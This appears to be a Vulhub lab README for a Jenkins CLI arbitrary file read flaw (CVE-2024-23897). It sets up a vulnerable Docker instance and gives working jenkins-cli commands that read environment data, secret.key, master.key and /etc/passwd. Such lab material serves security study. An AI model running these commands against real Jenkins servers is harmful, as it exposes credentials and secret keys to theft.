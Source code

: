 # Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

##
#
https://github.com/vulhub/vulhub/edit/master/jenkins/CVE-2024-23897/README.md
#
##


[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment

Execute following command to start a Jenkins server 2.441:

```
docker compose up -d
```

You can access the Jenkins server through `http://your-ip:8080/` after the server is started. Default administrator's username and password are `admin` and `vulhub`.

## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:8080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
